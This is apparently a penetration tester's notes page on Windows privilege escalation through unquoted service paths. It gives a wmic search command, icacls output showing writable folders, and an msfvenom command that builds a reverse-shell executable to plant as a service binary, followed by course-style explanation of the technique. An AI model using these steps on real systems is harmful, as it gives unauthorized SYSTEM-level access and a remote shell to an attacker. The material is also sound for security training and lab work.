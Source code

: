 ```yaml
---
description: >-
  Unquoted Service Path
title: Unquoted Service Path             # Add title here
date: 2023-02-03 08:00:00 -0600                           # Change the date to match completion date
categories: [04 Privilege Escalation, Windows - Unquoted Service Path]                     # Change Templates to Writeup
tags: [windows privesc, unquoted service path]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

First find programs without quotes and with spaces:
```powershell
wmic service get name,displayname,pathname,startmode |findstr /i "auto" |findstr /i /v "c:\windows\\" |findstr /i /v """
```

Verify that unsecure permissions are configured with icacls:
```cmd
C:\Program Files\Zen>icacls "C:\Program Files\Zen"
C:\Program Files\Zen BUILTIN\Users:(OI)(CI)(W)
                     NT SERVICE\TrustedInstaller:(I)(F)
                     NT SERVICE\TrustedInstaller:(I)(CI)(IO)(F)
                     NT AUTHORITY\SYSTEM:(I)(F)
                     NT AUTHORITY\SYSTEM:(I)(OI)(CI)(IO)(F)
                     BUILTIN\Administrators:(I)(F)
                     BUILTIN\Administrators:(I)(OI)(CI)(IO)(F)
                     BUILTIN\Users:(I)(RX)
                     BUILTIN\Users:(I)(OI)(CI)(IO)(GR,GE)
                     CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(RX)
                     APPLICATION PACKAGE AUTHORITY\ALL APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(RX)
                     APPLICATION PACKAGE AUTHORITY\ALL RESTRICTED APPLICATION PACKAGES:(I)(OI)(CI)(IO)(GR,GE)
```

Upload a reverse shell created with msfvenom:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=445 -f exe -o zen.exe
```

Then restart the service so it is executed from your reverse shell:



Another interesting attack vector that can lead to privilege escalation on Windows operating systems revolves around _unquoted service paths_. We can use this attack when we have write permissions to a service's main directory and subdirectories but cannot replace files within them. Please note that this section of the module will not be reproducible on your dedicated client. However, you will be able to use this technique on various hosts inside the lab environment.

As we have seen in the previous section, each Windows service maps to an executable file that will be run when the service is started. Most of the time, services that accompany third party software are stored under the C:\\Program Files directory, which contains a space character in its name. This can potentially be turned into an opportunity for a privilege escalation attack.

When using file or directory paths that contain spaces, the developers should always ensure that they are enclosed by quotation marks. This ensures that they are explicitly declared. However, when that is not the case and a path name is unquoted, it is open to interpretation. Specifically, in the case of executable paths, anything that comes after each whitespace character will be treated as a potential argument or option for the executable.

For example, imagine that we have a service stored in a path such as C:\\Program Files\\My Program\\My Service\\service.exe. If the service path is stored _unquoted_, whenever Windows starts the service it will attempt to run an executable from the following paths:

```c
C:\Program.exe
C:\Program Files\My.exe
C:\Program Files\My Program\My.exe
C:\Program Files\My Program\My service\service.exe
```

In this example, Windows will search each "interpreted location" in an attempt to find a valid executable path. In order to exploit this and subvert the original unquoted service call, we must create a malicious executable, place it in a directory that corresponds to one of the interpreted paths, and name it so that it also matches the interpreted filename. Then, when the service runs, it should execute our file with the same privileges that the service starts as. Often, this happens to be the NT\\SYSTEM account, which results in a successful privilege escalation attack.

For example, we could name our executable Program.exe and place it in C:\\, or name it My.exe and place it in C:\\Program Files. However, this would require some unlikely write permissions since standard users do not have write access to these directories by default.

It is more likely that the software's main directory (C:\\Program Files\\My Program in our example) or subdirectory (C:\\Program Files\\My Program\\My service) is misconfigured, allowing us to plant a malicious My.exe binary.

Although this vulnerability requires a specific combination of requirements, it is easily exploitable and a privilege escalation attack vector worth considering.